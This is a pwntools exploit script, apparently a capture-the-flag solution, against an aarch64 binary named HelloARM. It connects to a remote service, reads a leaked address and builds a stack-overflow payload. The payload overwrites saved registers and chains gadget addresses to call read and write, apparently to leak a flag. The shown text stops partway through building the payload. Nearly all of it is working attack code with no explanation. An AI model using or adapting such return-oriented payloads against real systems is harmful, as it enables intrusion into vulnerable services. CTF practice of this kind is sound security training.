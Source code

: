 ```python
from pwn import *
import sys
context.log_level='debug'
context.arch='aarch64'
Debug = True

elf=ELF('./HelloARM', checksec = False)

libc=ELF("./lib/libc.so.6", checksec = False)

def get_sh(other_libc = null):
    return remote('10.104.255.210', 7777)
    # global libc
    # if args['REMOTE']:
    #     if other_libc is not null:
    #         libc = ELF("./", checksec = False)
    #     return remote('10.104.255.210', 7777)
    # elif Debug:
    #     sh = process(["qemu-aarch64", "-g", "2333", "-L", "./", "./HelloARM"])
    #     log.info('Please use GDB remote!(Enter to continue)')
    #     raw_input()
    #     return sh
    # else :
    #     return process(["qemu-aarch64", "-L", "./", "./HelloARM"])


conn = get_sh()
conn.recvline()
bb = conn.recvline()
hex_magic = bb[15:-1].decode('utf-8')
addr_magic = int(hex_magic, 16)

guess_fd = 3
flag_len = 0x20*8 - 8

conn.recv()
conn.send('imlk____________')
conn.recv()
payload = ('a' * 0x100).encode() # 填充

payload += p64(addr_magic - 0x10) # x29
payload += p64(0x0000000000400AD0) # x30 for ret to __libc
for i in range(0, 0x32):
    if i == 0x0: 
        payload += p64(0x0000000000400730) # set to write func pointer
    elif i == 0x1: # addr_magic-0x08 for w
        payload += p64(0x0000000000400760) # set to read func pointer
    elif i == 0x2: # addr_magic
        payload += p64(0) # addr_magic-0x28 for x19


    elif i == 0x22:# x29
        payload += p64(addr_magic - 0x10)
    elif i == 0x23:# x30
        payload += p64(0x0000000000400AB0) # for ret to __libc stage 2
    elif i == 0x25: # x20
        payload += p64(1) # to compare with x19, mark read() finished
    elif i == 0x26: # x21
        payload += p64(addr_magic - 0x8)
    elif i == 0x27: # x22
        payload += p64(guess_fd)
    elif i == 0x28: # x23
        payload += p64(addr_magic + 0x8)
```